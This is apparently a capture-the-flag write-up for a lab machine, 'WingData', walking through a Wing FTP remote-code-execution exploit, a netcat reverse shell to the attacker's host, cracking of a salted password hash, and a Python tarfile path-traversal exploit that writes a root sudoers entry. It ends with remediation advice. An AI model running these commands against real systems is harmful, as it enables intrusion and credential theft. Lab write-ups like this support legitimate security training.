


| Property       | Value                                                          |
| -------------- | -------------------------------------------------------------- |
| **OS**         | Linux                                                          |
| **Difficulty** | Easy                                                           |
| **Release**    | 2026-02-14                                                     |
| **State**      | Active                                                         |
| **IP**         | 10.129.58.9                                                    |
| **Techniques** | Wing FTP RCE, lua injection, hash cracking, tar path traversal |
| **Tags**       | #web #privesc #linux                                           |

---
## Summary

WingData is an easy Linux machine hosting a Wing FTP Server vulnerable to an unauthenticated RCE (CVE-2025-47812). The vulnerability can be leveraged to gain a foothold as the `wingftp` user.  
SHA-256 hashed credentials for other users are found in the application directory alongside a static salt string `WingFTP` stored in the server configuration.  
Cracking `wacky`'s hash grants SSH access. `wacky` can run a backup restoration script as root via `sudo`, which uses Python's `tarfile` module vulnerable to CVE-2025-4517.
The exploit relies on a path traversal flaw that bypasses the `filter="data"` protection and allows arbitrary file writes. This can be used to inject a sudoers entry for `wacky`, granting full root access.

---
## Enumeration

```
echo '10.129.58.9 wingdata.htb' | sudo tee -a /etc/hosts
```

Added the IP address of the machine to the `/etc/hosts` file.

### Nmap Scan

```
sudo nmap -sC -sV wingdata.htb
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-05 15:07 EDT
Nmap scan report for wingdata.htb (10.129.58.9)
Host is up (0.032s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey:
|   256 a1:fa:95:8b:d7:56:03:85:e4:45:c9:c7:1e:ba:28:3b (ECDSA)
|_  256 9c:ba:21:1a:97:2f:3a:64:73:c1:4c:1d:ce:65:7a:2f (ED25519)
80/tcp open  http    Apache httpd 2.4.66
|_http-server-header: Apache/2.4.66 (Debian)
|_http-title: WingData Solutions
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 17.98 seconds
```

### Service Enumeration

The web application on port 80 belongs to WingData Solutions, a file-sharing and encryption platform. A client portal redirects to the `ftp.wingdata.htb` subdomain.



```
echo '10.129.58.9 ftp.wingdata.htb' | sudo tee -a /etc/hosts
```

Added the FTP subdomain to the `/etc/hosts` file.

**Vulnerable Wing FTP Server v7.4.3:**



---
## Foothold

### CVE-2025-47812

Wing FTP Server versions prior to 7.4.4 are vulnerable to an unauthenticated remote code execution flaw (CVE-2025-47812). The vulnerability arises from improper handling of NULL bytes in the `username` parameter during login, leading to Lua code injection into session files. The exploit leverages a discrepancy between the string processing in `c_CheckUser()` (which truncates at NULL) and the session creation logic (which uses the full unsanitized username).

### Exploitation

PoC: [exploit-db.com/exploits/52347](https://www.exploit-db.com/exploits/52347)

```
python3 52347.py -u http://ftp.wingdata.htb/

[*] Testing target: http://ftp.wingdata.htb/
[+] http://ftp.wingdata.htb/ is vulnerable!
```

```
python3 52347.py -u http://ftp.wingdata.htb/ -c 'cat /etc/passwd'

--- Command Output ---
root:x:0:0:root:/root:/bin/bash
...
wingftp:x:1000:1000:WingFTP Daemon User,,,:/opt/wingftp:/bin/bash
wacky:x:1001:1001::/home/wacky:/bin/bash
```

Two users identified: `wingftp` and `wacky`.

The exploit can be leveraged to gain a reverse shell, which is more stable than the original PoC:

```
python3 52347.py -u http://ftp.wingdata.htb/ -c 'nc 10.10.14.224 1111 -e /bin/sh'
```

```
nc -lvnp 1111
connect to [10.10.14.224] from (UNKNOWN) [10.129.58.9] 47398

python3 -c 'import pty; pty.spawn("/bin/bash")'
wingftp@wingdata:/opt/wftpserver$
```

Shell obtained as `wingftp`, upgraded to a full interactive TTY.

---
## User Flag

Enumerating the Wing FTP server directory reveals per-user XML configuration files containing SHA256 hashed credentials.

```
wingftp@wingdata:/opt/wftpserver$ ls Data/1/users
anonymous.xml  john.xml  maria.xml  steve.xml  wacky.xml

wingftp@wingdata:/opt/wftpserver$ cat ./Data/1/users/wacky.xml
...
<Password>32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca</Password>
```

The `settings.xml` file in the same directory reveals that passwords are salted with the string `WingFTP`.

```
<EnablePasswordSalting>1</EnablePasswordSalting>
<SaltingString>WingFTP</SaltingString>
```

### Hash Cracking

```
echo '32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca:WingFTP' > wacky.hash

hashcat -m 1410 wacky.hash /usr/share/wordlists/rockyou.txt
32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca:WingFTP:!#7Blushing^*Bride5

Status: Cracked
```

Credentials recovered: `wacky:!#7Blushing^*Bride5`

```
ssh wacky@wingdata.htb
# password: !#7Blushing^*Bride5

wacky@wingdata:~$ cat user.txt
1e9*********************00f
```

---
## Privilege Escalation

### Enumeration

```
wacky@wingdata:~$ sudo -l
User wacky may run the following commands on wingdata:
    (root) NOPASSWD: /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py *
```

`wacky` can run `restore_backup_clients.py` as root. The script accepts a backup tarball and extracts it to a staging directory using `tarfile.extractall()` with `filter="data"`.

### CVE-2025-4517

A critical vulnerability in Python's `tarfile` module that allows arbitrary file write through a combination of symlink path traversal and hardlink manipulation. This bypasses the `filter="data"` protection introduced in Python 3.12.

PoC: [github.com/AzureADTrent/CVE-2025-4517-POC](https://github.com/AzureADTrent/CVE-2025-4517-POC)

### Exploitation

```
wacky@wingdata:~$ wget http://10.10.14.224:8000/CVE-2025-4517-POC.py
```

```
python3 CVE-2025-4517-POC.py

[*] Creating exploit tar for user: wacky
[+] Exploit tar created: /tmp/cve_2025_4517_exploit.tar
[*] Deploying exploit to: /opt/backup_clients/backups/backup_9999.tar
[+] Exploit deployed successfully
[*] Triggering extraction via vulnerable script...
[+] Extraction completed
[+] SUCCESS! User 'wacky' added to sudoers
[+] Entry: wacky ALL=(ALL) NOPASSWD: ALL

[*] Spawning root shell...
root@wingdata:/home/wacky# cat /root/root.txt
79a*********************f4d
```

The PoC crafts a malicious tar archive that exploits the symlink + hardlink bypass to write a sudoers entry for `wacky`, granting full root access.

---
## Remediation

- **CVE-2025-47812:** Upgrade Wing FTP Server to version 7.4.4 or later.
- **Credential storage:** Store credentials outside the application directory with restricted permissions.
- **SHA-256 with static salt:** Replace the static `WingFTP` salt with a random salt for each user and use a modern password hashing algorithm such as bcrypt or Argon2.
- **CVE-2025-4517:** Upgrade to Python 3.13.4+ or apply available security patches. Minimize scripts that can be executed as root via `sudo`.

---
## References

- [CVE-2025-47812 PoC](https://www.exploit-db.com/exploits/52347)
- [CVE-2025-4517 PoC](https://github.com/AzureADTrent/CVE-2025-4517-POC)